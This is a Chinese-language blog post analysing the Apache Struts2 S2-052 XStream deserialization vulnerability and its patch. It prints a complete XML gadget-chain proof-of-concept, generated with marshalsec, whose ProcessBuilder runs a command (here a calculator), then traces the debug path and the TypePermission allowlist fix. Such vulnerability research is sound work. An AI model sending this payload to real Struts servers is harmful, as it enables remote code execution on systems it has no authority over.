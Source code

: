 ```yaml
---
layout: post  
title: "s2-052 漏洞解析和补丁分析"  
date: 2017-09-08
description: "java漏洞"  
tag: java漏洞
---
```

##  问题复现  
9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考[http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral](http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral),可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。  
找到[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/11959949.jpg)
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:  
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。
```
new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
```
跟进ProcessBuilder类，发现了commond字段
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-8/60983788.jpg)
那么其和xml的中的节点
```
<command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
```
可以匹配起来了，至此可以弹出计算器。  
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:  
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/21020967.jpg)
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/49876782.jpg)
Xstream将xml数据解析并放到一个map里面。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/82546916.jpg)
某处关键代码如下  
```
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
```
经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下  
```
 protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
```  
其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
 经过持续的跟进，发现callReadResolve函数入下  
 ![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/92268293.jpg)
 java反射机制。整个操作流程细节比较复杂，总结起来如下:
 xml先提取节点，解析到map
 迭代器继续解析节点
 反射机制执行恶意代码
 
## 补丁分析  
我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考[https://struts.apache.org/docs/s2-052.html](https://struts.apache.org/docs/s2-052.html))，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/29393266.jpg)
[http://x-stream.github.io/security.html](http://x-stream.github.io/security.html)。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
![](http://ohsqlm7gj.bkt.clouddn.com/17-9-11/60892122.jpg)
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。  
```
 public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i < this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
```后面也就不会去解析之行了。至此，整个过程分析完毕。

##  参考资料   
http://x-stream.github.io/security.html
